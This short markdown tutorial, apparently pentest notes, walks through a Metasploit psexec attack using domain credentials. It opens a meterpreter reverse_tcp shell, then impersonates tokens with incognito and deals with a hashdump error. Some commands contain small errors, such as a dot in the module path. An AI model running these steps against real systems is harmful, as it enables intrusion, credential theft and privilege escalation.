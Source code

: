 To perform this attack you need to have the username and password of a domain user.
### Tooling
1. Metasploit

### The attack
Start metasploit on your machine by typing

```sh
msfconsole
```
Select `psexec` as your exploit by typing

```sh
use exploit/windows/smb.psexec
```

Set the required options for the exploits and **<u>set targets</u>**  by typing the following command

```sh
show targets
```

To see the targets that are there, for this attack vector we can use Native file upload in this target by doing
```sh
set target 2
```

We are going to set the payload to `/windows/x64/meterpreter/reverse_tcp` as the payload by typing

```sh
set payload /windows/x64/meterpreter/reverse_tcp
```

and set the required options and exploit.

### Getting tokens

Once we have our session, we can load post exploitation tools by doing `load` and tab to see the options we can set.

In this case we shall use incoginto so we can do

```sh
load incognito
```

We can look at tokens available by typing

```sh
list_tokens -u
```

we can then proceed by impersonating the tokens by typing

```sh
impersonate_token <token_name>
```

### Possible errors

We might get an error when we try and dump hashes using hashdump, if you get the error 
```sh
priv_passwd_get_sam_hashes: Operation failed: Access is denied.
```

We can type `rev2self` which will return us to our original state and perform the actions again.
